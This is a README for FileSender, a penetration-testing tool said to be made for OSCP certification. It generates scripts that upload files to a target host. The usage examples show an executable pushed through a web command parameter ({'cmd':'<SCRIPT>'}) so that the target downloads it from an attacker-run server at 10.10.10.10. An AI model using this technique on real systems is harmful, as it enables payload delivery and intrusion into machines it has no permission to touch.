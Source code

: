 [![PyPi](https://img.shields.io/pypi/v/filesender.svg)](https://pypi.org/pypi/filesender/)
![License](https://img.shields.io/github/license/EmilienPer/FileSender.svg?style=flat)
[![Donate](https://img.shields.io/badge/donate-paypal-orange.svg)](https://www.paypal.me/EmilienPer)
[![Beerpay](https://beerpay.io/EmilienPer/HackRecon/badge.svg?style=flat)](https://beerpay.io/EmilienPer/HackRecon)
## Table of Contents
   * [FileSender](#filesender)
   * [Requirement](#requirement)
   * [Installation](#installation)
   * [Options](#options)
   * [Usage](#usage)
   * [Example](#example)
   * [Issues management](#issues-management)
  
## FileSender
Project URL : https://github.com/EmilienPer/FileSender

FileSender was created to be used for OSCP certification.
It's aims to generate a script to upload a file to a target in different languages. 
The base mechanism is the following : 

- Copy the file in a tempory directory 
- Start a server (if required) 
- Create the script to download the file from the server or to build the file
- Send the script to the target


## Requirement
FileSender run on Python 2.7 can't work correctly without the following tools

The following tools are required: 
- upx (/usr/bin/upx)
- exe2bat.exe
- wine  

## Installation
`sudo pip install filesender`

## Options
| Option | Shortcut | Description |
| ------ | -------- | ----------- |
| file || The path to file to send | 
| method | | the language of the script (powershell,hex,ftp,wget,vbscript,exe2bat)|
| type | | the type of output/sending method (print / get / post) |
| dest | |  the destination directory on the target |
| --server-ip | | The local ip address | 
| --server-port | | The local port | 
|--url|-u| The Target URL|
|--params|-p|A json  {key:value}  where value=<SCRIPT> when should be replace by the script|
|--cookies| -c | The cookies json|
|--timeout| | The timeout for server| 


## Usage
* `filesender /path/to/my/file.exe wget get /path/on/the/target --server-ip 10.10.10.10 --server-port 80 -u http://target.com -p {\"cmd\":\"<SCRIPT>\"} -c {} --timeout 10`
* `filesender /path/to/my/file.exe ftp print /path/on/the/target`
* ` filesender /path/to/my/file.exe wget get /path/on/the/target --server-ip 10.10.10.10 --server-port 80 -u http://target.com -p {\"cmd\":\"<SCRIPT>\"}`

## Issues management 
For contributions or suggestions, please [open an Issue](https://github.com/EmilienPer/GetAShell/issues/new) and clearly explain, using an example or a use case if appropriate. 